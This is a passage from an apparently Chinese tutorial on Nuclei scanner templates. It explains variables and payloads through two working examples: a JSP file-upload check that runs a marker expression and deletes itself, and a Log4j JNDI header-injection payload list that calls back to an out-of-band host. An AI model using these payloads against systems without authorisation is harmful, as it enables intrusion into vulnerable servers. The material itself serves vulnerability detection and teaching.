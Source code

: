 ```yaml
variables:
  filename: "{{to_lower(rand_base(10))}}"
  boundary: "{{to_lower(rand_base(20))}}"
http:
  - raw:
      - |
        POST /temp/upload?groupid=aa&fileType=jsp HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
        Content-type: multipart/form-data; boundary=----------{{boundary}}
        
        ------------{{boundary}}
        Content-Disposition: form-data; name="upload"; filename="{{filename}}.jsp"
        Content-Type: application/octet-stream
        
        <% out.println(111*111);new java.io.File(application.getRealPath(request.getServletPath())).delete(); %>
        ------------{{boundary}}--
  - raw:
      - |
        GET /temp/static/pages/aa/{{filename}}.jsp HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
    matchers:
      - type: dsl
        dsl:
          - "status_code_2 == 200 && contains(body_2,'12321')"
```

上面使用辅助函数定义了两个变量filename和boundary，在整个请求过程中变量的值不会改变

## 攻击载荷

payloads定义与变量相同，payloads 用来提供攻击载荷的部分，格式：

```
payloads:    
  变量名: 变量内容
```

如log4j扫描模板：

```yaml
requests:
  - raw:
      - |
        GET / HTTP/1.1
        Host: {{Hostname}}
        {{log4j_payloads}}
      - |
        POST / HTTP/1.1
        Host: {{Hostname}}
        {{log4j_payloads}}
    payloads:
      log4j_payloads:
        - 'X-Client-IP: ${jndi:ldap://{{interactsh-url}}/info}'
        - 'X-Remote-IP: ${jndi:ldap://{{interactsh-url}}/info}'
        - 'X-Remote-Addr: ${jndi:ldap://{{interactsh-url}}/info}'
        - 'X-Forwarded-For: ${jndi:ldap://{{interactsh-url}}/info}'
        - 'X-Originating-IP: ${jndi:ldap://{{interactsh-url}}/info}'
        - 'User-Agent: ${jndi:ldap://{{interactsh-url}}/info}'
        - 'Referer: ${jndi:ldap://{{interactsh-url}}/info}'
        - 'CF-Connecting_IP: ${jndi:ldap://{{interactsh-url}}/info}'
```
